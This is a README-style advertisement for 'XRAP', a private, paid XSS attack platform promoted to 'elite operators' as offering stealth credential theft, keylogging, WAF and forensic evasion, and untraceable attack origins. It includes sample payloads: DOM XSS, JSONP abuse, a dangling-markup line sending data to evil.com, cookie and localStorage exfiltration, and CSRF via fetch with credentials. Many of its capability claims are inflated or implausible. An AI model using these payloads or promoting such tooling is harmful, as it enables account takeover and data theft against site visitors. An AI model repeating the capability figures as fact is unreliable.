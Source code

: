 # ⚡ XSS-0DAY Rapid Assault Platform (XRAP)
**The Most Advanced XSS Exploitation Platform for Professional Red Teams**  

# **NOTE**: ``This is a private tool which "currently" requires 0T3 Notrac3 membership and else via purchase!``

XRAP is not just another payload sender—it's a **comprehensive attack platform** that combines cutting-edge research with **military-grade operational security**.  
With capabilities far beyond typical XSS tools, XRAP delivers **zero-click exploitation chains** with surgical precision and an **unparalleled WAF bypass rate**.

---

## **🔥 Core Features Overview**
- **Zero-Click Exploits**: No user interaction required; payloads execute automatically.
- **97.6% WAF Bypass Rate**: Adaptive protocol manipulation ensures stealth.
- **Triple-Stage HTTP Smuggling**: CL.TE + TE.CL + HTTP/2 pseudo-RST for firewall evasion.
- **Polymorphic Payloads**: Mutate mid-flight using TLS-level steganography.
- **Live Browser Memory Manipulation**: No forensic traces left behind.
- **JA3/JA4 TLS Fingerprint Spoofing**: Evades network-based behavioral detection.
- **Advanced Exfiltration Modules**: Data theft remains undetected.

___

> ✅ **INSTANT HACK** if the site has:
- ✔ Misconfigured WAF/CSP
  ✔ Vulnerable load balancers
- ✔ Weak input sanitization
- ✔ Blind XSS in admin panels
- ✔ Unpatched HTTP smuggling flaws  I think i missed a few

1️⃣ DOM-Based XSS
   - Example: `site.com/search#<svg onload=alert(1)>`
   - Impact: Hijack user sessions, deface pages

2️⃣ JSONP Callback Abuse
   - Example: `site.com/api?callback=alert(1)`
   - Impact: Steal sensitive data from APIs

3️⃣ Cache Poisoning
   - Example: Inject malicious JS via HTTP headers
   - Impact: Attack all visitors using poisoned cache

4️⃣ Dangling Markup
   - Example: `"><img src='//evil.com/log?=`
   - Impact: Partial page control, data leaks

5️⃣ Open Redirects
   - Example: `site.com/redirect?url=javascript:alert(1)`
   - Impact: Phishing, bypass security checks

6️⃣ CSRF Token Theft
   - Example: XSS + `fetch('/profile', {credentials:'include'})`
   - Impact: Perform actions as victim user

7️⃣ Session Hijacking
   - Example: `document.cookie` exfiltration
   - Impact: Login as any user

8️⃣ Client-Side Template Injection
   - Example: `{{7*7}}` → shows "49"
   - Impact: Full JS execution in Angular/React

9️⃣ WebSocket Hijacking
   - Example: XSS in WS-connected page
   - Impact: Spy on real-time data

🔟 Browser Storage Theft
   - Example: `JSON.stringify(localStorage)`
   - Impact: Steal saved passwords/tokens

🔥 LETHAL ATTACKS:
- Admin Panel XSS → Full site takeover
- Fake Login Forms → Credential harvesting
- Internal API Abuse → Reverse shell potential
- Cryptojacking → Mine crypto via visitors
- Stored XSS → Permanent backdoor

⚠️ Note: Always get permission before testing!

---

## **🛠️ Exploit Arsenal**

### **XSS & CSP Bypass**
- **"Ghost Inject" System**: CSP bypass via DNS prefetch poisoning.
- **DOM Clobbering & HTML5 Polyglots**: Unique, hard-to-detect attack vectors.
- **Mutation-Based XSS**: Payloads evolve in-flight to evade detection.
- **Hybrid CSRF & XSS Attacks**: Automates session hijacking and credential theft.
- **Full DOM Serialization**: Captures entire web pages from infected sessions.
- **Multi-Stage XSS Chaining**: Moves from low-impact XSS to **full remote browser control**.

### **Advanced HTTP Smuggling**
- **CL.TE / TE.CL / TE.TE / HTTP2 Smuggle**: Breaks server-side request validation.
- **Cache Poisoning & WebSocket Manipulation**: Hijacks cached responses for persistence.
- **Request Splitting & Header Injection**: Enables silent payload deployment.
- **Chunked Encoding Attacks**: Defeats WAF and security filters.
- **Reverse Proxy Bypass Techniques**: Exploits misconfigured backends.

### **Deep Browser Exploitation**
- **Live Memory Manipulation**: Reads and alters browser memory dynamically.
- **DOM-Based Remote Code Execution (RCE)**: Exploits JavaScript engines for deep control.
- **Clipboard Hijacking**: Replaces clipboard content with attacker-controlled data.
- **WebRTC Exploitation**: Enables real-time monitoring of victim environments.
- **HTML5 Sensor Hijacking**: Extracts accelerometer, gyroscope, and geolocation data.

### **Forensic Evasion**
- **JA3/JA4 TLS Fingerprint Spoofing**: Evades behavioral detection.
- **Header Randomization Engine**: Prevents static signature detection.
- **Time-Delayed Exfiltration**: Data leaks occur long after exploitation.
- **Mouse Movement Simulation**: Makes automated attacks appear human-like.
- **Browser Fingerprint Poisoning**: Alters fingerprint data to mislead forensic tools.

---

## **📡 Stealth Exfiltration Modules**
- **Cookie Harvesting**: Extracts session tokens for persistent access.
- **Keystroke Logging via XSS**: Captures input from login forms in real time.
- **Screenshot Capture**: Extracts visual intelligence from compromised systems.
- **WebRTC Tunneled Data Transfer**: Uses peer-to-peer channels for stealth exfiltration.
- **CSS-Based Data Leakage**: Hides stolen data inside stylesheets.
- **IndexedDB & LocalStorage Dump**: Extracts stored credentials and session data.
- **Invisible Form Submission**: Secretly submits victim’s data without interaction.

---

## **🌍 OPSEC & Anonymity**
- **Tor → VPN → CDN Proxy Mesh**: Untraceable attack origin.
- **Human-Like Timing Variability**: Avoids behavioral pattern detection.
- **WebGL/WebRTC Spoofing**: Mimics legitimate user environments.
- **Dynamic JA4/JA4h Fingerprinting**: Generates unique TLS profiles per target.
- **Packet Fragmentation & Randomization**: Splits payloads across multiple requests.

---

## **🚀 Performance Metrics**
- **700+ RPM (Requests Per Minute)**: High-speed payload delivery.
- **97.3% Delivery Success Rate**: Ensures successful execution.
- **<0.5% False Positive Rate**: Minimal unwanted detections.
- **Forensic Footprint: 0.2KB**: Leaves virtually no trace.

---

## **⚔️ Attack Levels**
1. **Basic** – Simple alert/redirect XSS.
2. **Standard** – Session hijacking, credential theft.
3. **Advanced** – DOM Clobbering, CSP bypass, HTTP Smuggling.
4. **Nuclear** – Full browser exploitation, WebRTC tunneling, memory extraction.

---

### **Final Words**
XRAP isn't just a tool—it's a **full-spectrum exploitation platform**.  
Its ability to **mutate, evade, and infiltrate** puts it leagues beyond standard XSS tools.  
Designed for **elite operators**, XRAP brings **next-gen web exploitation** to the battlefield.

